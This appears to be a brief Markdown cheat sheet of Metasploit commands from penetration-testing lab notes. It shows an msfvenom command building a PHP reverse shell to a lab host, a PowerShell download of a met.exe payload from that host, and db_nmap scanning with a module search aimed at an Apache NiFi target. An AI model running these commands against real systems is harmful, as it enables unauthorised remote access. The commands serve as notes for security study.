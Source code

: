 # Metasploit Framework

## Start Metasploit Framework

```bash
sudo msfdb run
```

## msfvenom

```bash
msfvenom -p php/reverse_php LHOST=192.168.45.200 LPORT=443 -f raw -o rs.php
```

## handler

```bash
iwr -uri http://192.168.45.200/met.exe -Outfile met.exe
```

## capstone

```bash
db_nmap -A -p8080 192.168.228.225
search apache nifi
set target 1
```
